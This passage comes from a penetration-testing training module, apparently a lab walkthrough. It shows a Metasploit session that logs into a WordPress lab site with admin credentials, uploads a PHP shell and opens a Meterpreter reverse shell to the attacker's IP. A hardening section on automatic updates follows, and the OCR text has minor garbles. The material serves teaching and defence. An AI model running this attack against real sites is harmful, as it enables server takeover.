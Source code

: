 **Set Options**

&#x20; Attacking WordPress with Metasploit

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```



## WordPress Hardening

***

### Best Practices

Below are some best practices for preventing attacks against a WordPress site.

***

### Perform Regular Updates

This is a key principle for any application or system and can greatly reduce the risk of a successful attack. Make sure that WordPress core, as well as all installed plugins and themes, are kept up-to-date. Researchers continuously find flaws in third-party WordPress plugins. Some hosting providers will even perform continuous automatic updates of WordPress core. The WordPress admin console will usually prompt us when plugins or themes need to be updated or when WordPress itself requires an upgrade. We can even modify the `wp-config.php` file to enable automatic updates by inserting the following lines:

Code: php

```php
define( 'WP_AUTO_UPDATE_CORE', true );
```

Code: php

```php
add_filter( 'auto_update_plugin', '__return_true' );
```
